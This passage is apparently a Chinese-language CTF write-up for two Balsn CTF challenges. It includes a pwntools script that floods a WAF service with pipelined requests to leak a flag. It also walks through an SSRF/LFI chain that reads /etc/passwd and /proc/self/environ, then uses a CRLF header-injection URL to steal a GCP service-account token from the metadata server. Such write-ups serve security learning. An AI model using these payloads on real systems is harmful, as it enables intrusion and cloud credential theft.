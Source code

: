 ### Exploit
```python=
#!/usr/bin/env python

from pwn import *
import requests
import re

balsn = re.compile(r'BALSN{[^}]*}')

payload = ''.join(('GET / HTTP/1.1\r\n\r\n' for _ in range(150000)))

r = remote('waf.balsnctf.com', 8889)
r.sendline(payload)
data = r.recvall()
qq = balsn.findall(data.decode())

for i in qq:
    if i != "BALSN{REDACTED_REDACTED_REDAC}":
        print(i)
```
然後執行
```
python3 payload.py | grep -Pv 'Receiving|REDACTED'
```


Result: 
![](https://i.imgur.com/lH26NGx.png)


(P.S. 在結束後自己重現時發現若一開始的 flag 太短的話，還是有機會 被 redacted。所以一開始的猜測似乎是正確的，)

## [Web] tpc
### 前言
有使用 GCP 並且深入研究過的人，都會知道 GCP 是建立在 Docker image 上，所以討論方向都跟 docker 無關
1. 嘗試請求 file:///etc/passwd 知道有 SSRF(兼LFI)以後，file:///etc/hosts 了解網路環境並得知 這是一台 GCP, 因此研究方向則是 information leak, 資訊：169.254.169.254 metadata.google.internal metadata
2. 竊取 token, http://35.194.175.80:8000/query?site=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token%20HTTP/1.1%0D%0AMetadata-Flavor:Google%0D%0ANo:
3. 透過 token 存取 storage google api
 
### 解法
透過 LFI 的漏洞查看 `/proc/self/cmdline` 以及 `/proc/self/environ`, 得到 source code path `/opt/workdir/main-dc1e2f5f7a4f359bb5ce1317a.py` 以及 PWD 為 `/opt/workdir`, 得知 flag 應該位於 `/opt/workdir/` 下, 因此我們的目標要**想辦法取得此資料夾下的資料** or **RCE 直接 `ls`, `cat` 來看**

發現 `/etc/hosts` 中有出現 `169.254.169.254 metadata.google.internal`, 猜測有使用 GCP (google cloud platform) 服務

透過 CVE-2019-9947, 我們可以在請求中塞其他 header
- GCP 規定存取時需要有 `Metadata-Flavor:Google` header
- 在網址後面加上%20HTTP/1.1%0D%0AMetadata-Flavor:Google%0D%0AUNUSELESS:, 會變成:
```
GET: / HTTP/1.1
Metadata-Flavor: Google
UNUSELESS: HTTP/1.1
HOST: XXX.com
...
```
這樣就可以使用 GCP 服務了
